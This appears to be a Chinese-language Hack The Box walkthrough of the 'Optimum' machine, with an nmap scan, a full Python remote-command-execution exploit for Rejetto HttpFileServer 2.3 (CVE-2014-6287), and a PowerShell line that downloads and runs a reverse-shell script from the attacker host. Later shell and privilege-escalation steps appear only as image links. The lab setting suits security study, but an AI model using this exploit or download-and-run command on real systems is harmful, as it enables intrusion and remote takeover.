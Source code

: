 # Optimum

目标ip：`10.10.10.8`

攻击机ip：`10.10.16.218`



## 信息收集

```shell
C:\opt\htb\attacks\Optimum> cat nmap.txt 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-03 02:40 EDT
Nmap scan report for 10.10.10.8
Host is up (0.37s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.89 seconds

```



## web

目标使用 HttpFileServer 2.3 ， 猜测存在漏洞

![image-20210603150907324](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210603150907324.png)

```python
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)

except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)                                              
```

有关这个漏洞的分析，请看[[CVE-2014-6287]REJETTO HTTP FILE SERVER远程命令执行漏洞分析](https://whereisk0shl.top/post/cve-2014-6287-rejetto-http-file-serveryuan-cheng-ming-ling-zhi-xing-lou-dong-fen-xi) written by k0shl。简单的说，是一个命令注入漏洞。

运行一下，cs 上线

![image-20210603151008552](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210603151008552.png)

上传 msf 的马， 得到一个 msf shell

![image-20210603151124202](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210603151124202.png)

## 提权

看看提权建议

![image-20210603151139208](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210603151139208.png)

尝试提权， 成功

![image-20210603151237762](https://gitee.com/ethustdout/pic2/raw/master/uPic/image-20210603151237762.png)

